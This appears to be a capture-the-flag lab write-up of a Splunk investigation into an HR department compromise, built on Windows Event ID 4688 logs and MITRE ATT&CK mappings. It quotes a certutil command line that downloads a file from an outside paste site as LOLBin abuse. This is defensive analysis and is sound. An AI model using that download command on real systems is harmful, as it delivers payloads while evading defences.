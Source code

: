 # **Splunk Investigation: HR Department Compromise (Event ID 4688)**

---

### **Summary**

An IDS flagged suspicious process execution within the HR department. Using Windows Event ID 4688 logs ingested into Splunk, we conducted an investigation to identify signs of malicious activity and potential compromise.

---

### **Key Findings**

* **Impersonation Account:** Detected a typo-squatted account, Amel1a, spoofing legitimate marketing user Amelia.  
* **Suspicious User Activity:** Chris.fort (HR) executed processes such as taskkill.exe and clip.exe, not typical for end-users.  
* **LOLBin Abuse:** Haroon used certutil.exe to download a file from controlc.com, indicating Living-off-the-Land Binary (LOLBin) abuse.  
* **MITRE ATT\&CK Mapping:** Attacker used credential impersonation (T1078.004), LOLBins (T1218.010), and C2 (T1105)

---

### **Investigation Steps**

#### **1\. Baselining Logs**

* **Query:**  
  index=win\_eventlogs | stats count  
  → Returned **13,959 logs** (March 2022 only).  
* **Scoped HR User Activity:**  
  index=win\_eventlogs Username IN ("chris.fort", "haroon", "diana")  
  → Focussed on users from the HR department.

#### **2\. Identifying the Imposter Account**

* **Query:**  
  index=\* | stats count by Username  
  → Identified Amel1a, a spoofed version of Amelia. Typo-squatting confirmed.

**Efficiency Note:** stats count is preferred over table | dedup for better performance in large datasets.

#### **3\. Triaging HR User Activity**

##### **Chris.fort:**

* **Query:**  
  Username="Chris.fort" | table ProcessName, CommandLine | dedup ProcessName  
* Ran suspicious binaries:  
  * taskkill.exe, clip.exe (scripting and automation tools)   
  * backgroundTaskHost.exe (also used by Diana, but Chris had no productivity apps)  
* Lacked normal user behavior (e.g., browser, Office apps).  
* *Attempted Detection of Scheduled Task Binaries:*  
  * ProcessName IN ("schtasks.exe", "svchost.exe", "taskeng.exe")  
* No strong indicators here, pivoted back to broader process review.

##### **Diana:**

* While both Chris and Diana executed backgroundTaskHost.exe, only Diana ran typical productivity apps like chrome.exe and notepad.exe.  
* No red flags.

##### **Haroon:**

* Executed:  
  certutil.exe \-urlcache \-split \-f https://controlc.com/e4d11035 benign.exe  
  * Indicates malicious file download via **certutil.exe** (LOLBAS technique).  
  * While Certutil is a legitimate Windows tool, its use here \- along with haroon’s lack of other admin level activity \- strongly suggests its use is malicious.

#### **4\. Confirming Malicious Activity**

* File saved: benign.exe  
* Downloaded from: https://controlc.com/e4d11035  
* Flag found inside file: THM{KJ&\*H^B0}

**IOC Summary:** The download from controlc.com and presence of encoded payloads are consistent with command-and-control behavior observed during post-exploitation phases. 

---

### **Lessons Learned**

#### **SOC Workflow**

* **Alerting Strategy:** Flag unusual process execution, especially known LOLBins like certutil.exe, particularly when run by non-admin users.  
* **Baseline Behavior:** Department-level activity baselining can reduce false positives.

#### **Tool Efficiency**

* stats count is more performant than table | dedup for retrieving unique values.  
* dedup remains useful in small-scope investigations, such as filtering usernames.

---

### **MITRE ATT\&CK Mappings**

  | Tactic               | Technique  | Description                                |
|:---------------------|:-----------|:-------------------------------------------|
| Execution            | T1059.003  | certutil.exe used to download a payload    |
| Persistence          | T1078.004  | Spoofed account Amel1a for access           |
| Defense Evasion      | T1218.010  | LOLBin abuse with certutil.exe              |
| Command and Control  | T1105       | Connection to external C2 (controlc[.]com)  |


---

This investigation highlights a multi-phase attack starting with credential abuse, followed by LOLBin execution and external communication. Each phase was observable via effective Splunk queries and contextual log analysis.
